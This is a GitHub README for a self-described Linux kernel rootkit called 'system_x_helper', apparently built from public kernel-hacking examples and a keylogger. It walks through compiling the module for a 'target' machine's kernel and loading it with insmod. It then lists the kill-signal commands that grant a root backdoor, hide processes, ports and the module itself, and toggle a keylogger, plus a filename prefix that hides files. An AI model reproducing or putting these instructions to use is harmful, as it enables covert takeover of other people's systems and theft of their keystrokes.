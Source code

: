 # My very own rootkit! 
Most code copied from [The Xcellerator](https://github.com/xcellerator/linux_kernel_hacking/tree/master/3_RootkitTechniques)
Keylogger from [jarun](https://github.com/jarun/spy)

The rootkit's name is `system_x_helper`

---

## How to install

First get the target's kernel version so we can compile (run `$ uname -r`)
Next, in the `Makefile` replace `$(shell uname -r)` with the output of the target's output

Install `make build-essential linux-headers-$(uname -r)`

Now run `$ make`

Finaly, run `$ /sbin/insmod system_x_helper.ko`

---

## Functionality
- Uses `kill` to run different things
- Gives root access
- Hide files/directories
- Hide processes
- Hide open ports/active connections
- Hide itself
- Keylogger (log: `/sys/kernel/debug/system_x_kisni/system_x_keys`)

---

## Kill flags for each functionality

#### Root backdoor
`$ kill -64 9843`
> 9843 can be any number

#### Toggle hide/unhide self (Hidden by default)
`$ kill -63 9489`
> 9489 can be any number

#### Toggle hide specified process (Can hide up to 16)
`$ kill -62 <PID to hide/unhide>`

#### Hide ports
`$ kill -61 <port number to hide>`

#### Toggle keylogger
`$ kill -60 9028`
> 9028 can be any number

---

## Hidden files/directories

#### Prefix
`system_x_`
> hides the file/directory

